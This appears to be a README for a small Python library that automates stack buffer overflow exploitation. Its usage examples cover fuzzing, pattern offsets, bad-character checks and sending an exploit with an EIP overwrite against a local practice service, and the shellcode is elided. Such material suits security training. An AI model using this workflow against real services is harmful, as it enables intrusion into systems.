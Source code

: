 # What is BUFF?
A simple BOF library I wrote under an hour to help me automate with BOF attack.
It comes with fuzzer and a generic method to generate exploit easily.

<br/>

# Usage

## Fuzzer
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")
runner.fuzz()
```

## Sending Pattern
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")
runner.sendPattern()
```

## Find Pattern Offset
```python
import buff


runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

BUFFER_SIZE = 1100
offset = buff.generator.findPatternOffset(BUFFER_SIZE, "v1Av")
print(offset)
```

## Sending Bad Characters
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()
```

## Sending Exploit
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

# Set Buffer Size
runner.setBufferSize(2400)

# Set Eip offset
runner.setEipOffset(1978)

# Send real exploit
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

# set padding
runner.setPaddingSize(16)

runner.sendExploit()
```
